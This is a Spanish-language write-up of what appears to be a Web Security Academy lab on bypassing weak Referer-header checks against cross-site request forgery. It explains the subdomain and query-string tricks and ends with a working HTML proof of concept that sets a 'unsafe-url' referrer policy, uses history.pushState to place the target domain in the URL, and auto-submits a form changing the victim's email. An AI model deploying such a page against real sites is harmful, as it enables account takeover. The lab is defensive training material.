

## Validation of Referer can be circumvented

Algunas aplicaciones validan la cabecera Referer de una manera ingenua que puede ser eludida. Por ejemplo, si la aplicación valida que el dominio en el Referer comienza con el valor esperado, entonces el atacante puede colocar esto como un subdominio de su propio dominio:

```c
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Del mismo modo, si la aplicación simplemente valida que el Referer contiene su propio nombre de dominio, entonces el atacante puede colocar el valor requerido en otra parte de la URL:

```c
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

Aunque es posible que pueda identificar este comportamiento utilizando Burp, a menudo encontrará que este enfoque ya no funciona cuando vaya a probar su prueba de concepto en un navegador. En un intento de reducir el riesgo de que se filtren datos confidenciales de esta forma, muchos navegadores eliminan por defecto la cadena de consulta del encabezado Referer.

Puedes anular este comportamiento asegurándote de que la respuesta que contiene tu exploit tiene la cabecera `Referrer-Policy: unsafe-url` establecida (ten en cuenta que Referrer está escrito correctamente en este caso, sólo para asegurarte de que estás prestando atención). Esto asegura que se enviará la URL completa, incluyendo la cadena de consulta.

## LAB 



Al interceptar las solicitudes, enviamos una para cambiar el email 


En la anterior solicitud vemos que efectivamente se logro cambiar el email, pero ahora al quietar el `Referer`  este nos devuelve un `invalid referer header`


ahora agregamos `Referer: https://attacker.com/?0ab900a004dbe60280f31214005c007d.web-security-academy.net` y volvemos a enviar. La solicitud de cambio de email funciona


Entendido esto, ahora construiremos nuestra POC. 

Muchas aplicaciones implementan una protección básica contra CSRF revisando el encabezado `Referer`. La lógica suele ser: si el `Referer` contiene el dominio legítimo, la petición se considera confiable. Esta validación es débil, porque no comprueba si el `Referer` comienza exactamente con la URL del sitio víctima, sino que solo busca la cadena del dominio dentro del valor. Esta debilidad permite ataques si el atacante logra inyectar el dominio víctima en el `Referer` que el navegador envía.

- Uso de `<meta name="referrer" content="unsafe-url">`

De manera predeterminada, los navegadores pueden truncar el `Referer` y enviar únicamente el origen por razones de privacidad, lo que reduciría nuestra capacidad de controlarlo. La etiqueta HTML `<meta name="referrer" content="unsafe-url">` indica al navegador que envíe el `Referer` completo, incluyendo la URL actual con su query string. Esto es fundamental porque nos permite incluir cadenas personalizadas en la URL que se reflejarán en el encabezado `Referer` durante la solicitud CSRF.


- Manipulación con `history.pushState()`

Para explotar la validación débil, necesitamos que la URL actual contenga el dominio legítimo dentro de su estructura. La función `history.pushState()` nos permite cambiar la URL visible en la barra del navegador sin recargar la página ni modificar el dominio real (sigue siendo el dominio del atacante). Al llamar a `history.pushState('', '', '/?0ab900a004dbe60280f31214005c007d.web-security-academy.net');`, la URL del atacante se convierte en algo como `https://attacker.com/?0ab900a004dbe60280f31214005c007d.web-security-academy.net`. Cuando el navegador envía la petición POST, el `Referer` incluirá este valor completo.

- Efecto combinado

Como resultado, el servidor recibe un `Referer` que contiene el dominio legítimo en la query string, aunque la solicitud proviene del atacante. Si la validación solo busca la cadena `web-security-academy.net` dentro del `Referer`, la comprobación pasará. Esta técnica demuestra por qué las validaciones basadas únicamente en el `Referer` son inseguras y pueden ser fácilmente engañadas con manipulaciones del historial y control del comportamiento del navegador.

Así que nuestra POC quedaría asi:

```html
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
    </head>
  <body>
    <form action="https://0ab900a004dbe60280f31214005c007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener7@evil.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ab900a004dbe60280f31214005c007d.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```